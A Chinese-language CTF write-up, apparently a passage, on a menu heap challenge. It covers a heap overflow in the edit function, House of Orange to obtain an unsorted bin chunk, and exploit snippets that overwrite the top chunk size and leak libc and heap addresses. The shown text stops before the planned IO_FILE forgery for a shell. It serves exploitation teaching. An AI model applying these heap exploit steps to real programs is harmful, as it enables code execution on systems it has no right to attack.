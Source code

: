 ### 分析

菜单题，有 add、edit、show 三功能，无 free

在 edit 功能中有堆溢出漏洞，经典的 House of orange 模版

### 利用思路

通过 House of orange 方法获得 unsorted bin chunk，利用 unsortedbin attack 伪造执行伪造的 IO\_FILE 结构体 getshell

### 做题过程

修改 topchunk size

```bash
add(0x20,b"aaaa")
edit(0,-1,p64(0)*5+p64(0xfd1))
add(0x1000,b"a")
```

[![](assets/1701606938-9adec33a3bc4e5a69dfa0c63996b30bd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201532-5f6c2858-6a8b-1.png)

此时我们得到了一个 unsorted bin 中的堆块，但是为了后续攻击需要，我们还需要泄露堆地址和 libc 地址。而这道题其实还存在一个漏洞，就是忘记在输入函数中输入数据后，给字符串末尾加上\\x00 了，这就导致了 unsorted bin 中的堆块被申请后会残留 fd 和 bk 指针，再次申请的时候即可泄露 libc。

但是我们还需要泄露堆地址，就需要申请一个 largebin 大小的 chunk。当触发遍历 unsorted bin 的时候，会将其中的堆块分类放入 small bin 或者 large bin 中，这样这个堆块就会被分到 large bin 中，然后启用 fd\_nextsize 和 bk\_nextsize 指针 (堆地址在这上面)

这个 chunk 上面残留了 libc 和堆地址，我们执行两次 show 即可进行泄露

```bash
add(0x400,b"b"*8)
show()
ru(b"b"*8)
main_arena = uu64(r(6))
libc_base = main_arena-1640-0x10-libc.sym['__malloc_hook']
edit(2,-1,b"c"*0x10)
show()
ru(b"c"*0x10)
heap_addr = uu64(r(6))-0x30
```

[![](assets/1701606938-6510d9a6709dc0a032d0317bf389d368.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201542-64f92da2-6a8b-1.png)
